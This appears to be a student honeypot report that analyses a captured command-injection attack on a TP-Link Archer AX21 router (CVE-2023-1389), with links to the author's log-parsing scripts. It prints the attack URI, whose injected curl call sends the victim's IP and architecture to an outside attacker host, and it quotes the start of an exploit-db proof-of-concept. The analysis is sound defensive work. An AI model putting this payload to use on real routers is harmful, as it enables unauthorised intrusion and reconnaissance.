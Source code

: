 ## Your custom script for parsing the logs.
* [logreader.py](https://github.com/LucasFaudman/BACS-4498/blob/main/analyzer-scripts/logreader.py) (Base class for reading all logs as json objects with standardized keys)
* [webloganalyzer.py](https://github.com/LucasFaudman/BACS-4498/blob/main/analyzer-scripts/webloganalyzer.py) (Python script for analyzing webhoneypot logs)
* [getlogsbyip.sh](https://github.com/LucasFaudman/BACS-4498/blob/main/analyzer-scripts/getlogsbyip.sh) (Bash script for extracting logs by IP address)

## Malware Analysis
The full URI used in the command injection is the following:
```bash
 /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);)
 ```
The portion of the command ``uname -m`` is used to determine the architecture of the system.  In this case, the architecture is x86_64.  
```bash
$(uname -m) => x86_64
```

Therefore the command attempted to be executed is the following:
```bash
curl http://2.237.57.70:81/who=54.67.87.80Ix86_64
```
#### Which if successful would have made an HTTP GET request to a webserver running on port 81 of the attacking system 2.234.57.70 sending the following information to the attacker:
* The IP address of the honeypot: 54.67.87.80
* The architecture of the honeypot: x86_64
* The fact that the command injection was successful

## Which vulnerability does the attack attempt to exploit?
#### Exploit: [TP-Link Archer AX21 - Unauthenticated Command Injection](https://www.exploit-db.com/exploits/51677)
#### CVE: [CVE-2023-1389](https://www.tenable.com/cve/CVE-2023-1389)
#### Mitre ATT&CK: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

Proof of concept exploit script from [exploit-db](https://www.exploit-db.com/exploits/51677):
```python
#!/usr/bin/python3
# 
# Exploit Title: TP-Link Archer AX21 - Unauthenticated Command Injection
# Date: 07/25/2023
# Exploit Author: Voyag3r (https://github.com/Voyag3r-Security)
# Vendor Homepage: https://www.tp-link.com/us/
# Version: TP-Link Archer AX21 (AX1800) firmware versions before 1.1.4 Build 20230219 (https://www.tenable.com/cve/CVE-2023-1389)
# Tested On: Firmware Version 2.1.5 Build 20211231 rel.73898(5553); Hardware Version Archer AX21 v2.0
# CVE: CVE-2023-1389
#
# Disclaimer: This script is intended to be used for educational purposes only.
# Do not run this against any system that you do not have permission to test. 
# The author will not be held responsible for any use or damage caused by this 
# program. 
# 
# CVE-2023-1389 is an unauthenticated command injection vulnerability in the web
# management interface of the TP-Link Archer AX21 (AX1800), specifically, in the
# *country* parameter of the *write* callback for the *country* form at the 
```